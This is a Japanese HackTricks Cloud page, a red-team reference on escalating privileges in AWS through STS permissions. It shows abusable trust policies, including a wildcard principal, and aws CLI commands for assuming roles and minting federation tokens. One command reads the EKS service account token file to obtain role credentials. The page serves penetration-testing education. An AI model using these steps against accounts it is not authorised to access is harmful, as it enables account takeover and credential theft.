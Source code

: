 # AWS - STS 特権昇格

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を通じてゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい** または **HackTricks をPDFでダウンロードしたい** 場合は [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェック！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)、当社の独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) コレクションを発見する
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f) または [**telegramグループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** をフォローする。**
* **ハッキングテクニックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出する。**

</details>

## STS

### `sts:AssumeRole`

すべてのロールは **ロール信頼ポリシー** とともに作成されます。このポリシーは **作成されたロールを誰が引き継ぐことができるか** を示します。 **同じアカウント** からのロールが、アカウントがそれを引き継ぐことができると述べている場合、そのアカウントはそのロールにアクセスできるようになります（そして潜在的に **特権昇格** が可能です）。

たとえば、次のロール信頼ポリシーは、誰でもそれを引き継ぐことができることを示しており、したがって **任意のユーザーがそのロールに関連付けられた権限に特権昇格** できます。
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
あなたは次を実行して役割をなりすますことができます：
```bash
aws sts assume-role --role-arn $ROLE_ARN --role-session-name sessionname
```
**潜在的影響:** ロールへの特権昇格。

{% hint style="danger" %}
この場合、権限`sts:AssumeRole`が**悪用するためにロールに指定**されている必要があり、攻撃者に属するポリシーに含まれている必要はありません。\
1つの例外を除いて、**別のアカウントからロールを仮定**するには、攻撃者アカウントもロールに対して**`sts:AssumeRole`**を持っている必要があります。
{% endhint %}

### **`sts:GetFederationToken`**

この権限を持つと、任意のユーザーをなりすまして資格情報を生成することが可能です。
```bash
aws sts get-federation-token --name <username>
```
これは、他のユーザーに成りすます権限を与えることなく安全に権限を付与する方法です:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "VisualEditor0",
"Effect": "Allow",
"Action": "sts:GetFederationToken",
"Resource": "arn:aws:sts::947247140022:federated-user/${aws:username}"
}
]
}
```
### `sts:AssumeRoleWithSAML`

このロールを持つ信頼ポリシーは、**SAML経由で認証されたユーザーに、そのロールを偽装する権限を付与します。**

この権限を持つ信頼ポリシーの例は次のとおりです：
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "OneLogin",
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::290594632123:saml-provider/OneLogin"
},
"Action": "sts:AssumeRoleWithSAML",
"Condition": {
"StringEquals": {
"SAML:aud": "https://signin.aws.amazon.com/saml"
}
}
}
]
}
```
役割を偽装するための資格情報を生成するには、一般的に次のようなものを使用できます：
```bash
aws sts  assume-role-with-saml --role-arn <value> --principal-arn <value>
```
しかし、**プロバイダー**は、[onelogin-aws-assume-role](https://github.com/onelogin/onelogin-python-aws-assume-role)のような**独自のツール**を使用して、これをより簡単にするかもしれません：

{% code overflow="wrap" %}
```bash
onelogin-aws-assume-role --onelogin-subdomain mettle --onelogin-app-id 283740 --aws-region eu-west-1 -z 3600
```
{% endcode %}

**潜在的影響:** ロールへの特権昇格。

### `sts:AssumeRoleWithWebIdentity`

この権限は、モバイル、Webアプリケーション、EKS...で認証されたユーザーがウェブアイデンティティプロバイダーで一連の一時的なセキュリティ資格情報を取得する権限を付与します。[詳細はこちら。](https://docs.aws.amazon.com/STS/latest/APIReference/API\_AssumeRoleWithWebIdentity.html)

たとえば、**EKSサービスアカウント**が**IAMロールをなりすます**できるようにする場合、**`/var/run/secrets/eks.amazonaws.com/serviceaccount/token`**にトークンがあり、次のような操作を行って**ロールを仮定し資格情報を取得**できます:

{% code overflow="wrap" %}
```bash
aws sts assume-role-with-web-identity --role-arn arn:aws:iam::123456789098:role/<role_name> --role-session-name something --web-identity-token file:///var/run/secrets/eks.amazonaws.com/serviceaccount/token
# The role name can be found in the metadata of the configuration of the pod
```
{% endcode %}

### フェデレーションの悪用

{% content-ref url="../aws-basic-information/aws-federation-abuse.md" %}
[aws-federation-abuse.md](../aws-basic-information/aws-federation-abuse.md)
{% endcontent-ref %}

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を通じて、ゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい** または **HackTricks をPDFでダウンロードしたい** 場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)、当社の独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) コレクションを発見する
* **💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f) または [**telegram グループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) をフォローする**
* **ハッキングテクニックを共有するために、** [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) の github リポジトリに PR を提出する

</details>
